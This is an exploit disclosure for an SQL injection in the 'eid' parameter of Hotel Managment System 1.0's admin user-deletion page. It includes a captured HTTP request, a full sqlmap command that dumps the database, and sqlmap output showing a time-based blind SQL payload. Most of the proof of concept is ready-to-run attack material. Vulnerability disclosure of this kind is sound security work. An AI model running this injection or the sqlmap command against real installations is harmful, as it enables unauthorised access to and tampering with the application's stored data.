 # Hotel Managment System - SQL Injection-4
+ *Exploit Title:* Hotel Managment System - SQL Injection-4
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'eid' parameter in Hotel/admin/usersettingdel.php?eid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/usersetting.php
+ Click delete user button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/usersettingdel.php?eid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```
+ Use sqlmap to exploit. In sqlmap, use 'eid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p eid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: eid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: eid=2' AND (SELECT 4449 FROM (SELECT(SLEEP(5)))GoxS)-- fWtv
---
[19:08:46] [INFO] the back-end DBMS is MySQL
[19:08:46] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:08:51] [INFO] fetching current database
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] N
[19:08:51] [INFO] retrieved: 
[19:09:01] [INFO] adjusting time delay to 1 second due to good response times
hotel
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 031013](https://github.com/tubakvgc/CVEs/assets/74067343/e8e7751f-27fc-4365-9d95-400ddc67b351)





  

